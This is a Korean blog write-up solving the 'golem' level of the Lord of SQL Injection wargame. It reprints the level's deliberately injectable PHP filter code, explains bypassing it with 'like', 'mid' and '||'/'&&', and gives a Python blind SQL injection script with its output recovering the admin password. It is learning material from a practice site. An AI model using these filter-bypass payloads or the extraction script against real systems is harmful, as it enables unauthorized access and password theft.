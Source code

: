 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - golem 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


벌써 11일 째 매일매일 꾸준히 문제를 풀고 있다.  

작심삼일을 반복하던 내가 11일 째라니 기특하다.  

이번 문제도 역시 `Blind SQL Injection` 이다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw=''
----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

이번엔 새로운 필터링이 추가되었다.  

`or`, `and` 뿐만 아니라 `substr(`과 `=`가 있어도 `HeHe`를 출력한다.  

`Blind SQL Injection` 문제를 풀 때 여태까지 사용한게 `substr` 함수와 `=` 문자인데, 이 둘을 사용할 수 없게 되었다.  

`substr`의 경우, `mid` 함수를 사용하면 `substr`과 동일하게 사용할 수 있다.  

문제는 `=`인데, 처음에는 `부등호`를 사용하려 했었다.  

근데 생각해보니 삽입해야 하는 쿼리는 `1' or id='admin' and length(pw)=1#`의 형태인데, 뒤의 `length(pw)=1`에는 부등호를 사용한다 쳐도, `id='admin'`에는 부등호를 사용해서 체크하기가 어려워 보였다.  

그래서 `like`을 사용했다.  

`and`는 `&&`로, `or`은 `||`로 사용할 수 있듯, `=` 또한 `like`으로 사용할 수 있다.  

따라서 최종적으로 완성되는 쿼리는 다음과 같은 형태가 된다.  

```
?pw=1' || id like 'admin' && length(pw) like 1#
```

앞서 말했듯, `&`는 `%26`으로, `#`은 `%23`으로 바꾸어 전달해야 한다.  

이를 토대로 파이썬 코드를 구현하면 다음과 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/golem_4b5202cfedd8160e73124b5234235ef5.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행시킨 결과 아래와 같이 `admin`의 `pw`를 알아낼 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 77
[+] Found 3 : 77D
[+] Found 4 : 77D6
[+] Found 5 : 77D62
[+] Found 6 : 77D629
[+] Found 7 : 77D6290
[+] Found 8 : 77D6290B
[+] Found password :  77D6290B
[+] End
```

이번에도 알파벳 대문자는 소문자로 바꾸어 입력 해 주어야 한다.  

그냥 대문자 건너뛰고 소문자로 찾을걸 그랬나보다.  

```
?pw=77d6290b
```

그럼 아래와 같이 문제를 풀 수 있다.  

```php
----------------------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw='77d6290b'
----------------------------------------------------------------------------------------------

GOLEM Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

`GOLEM Clear!!`
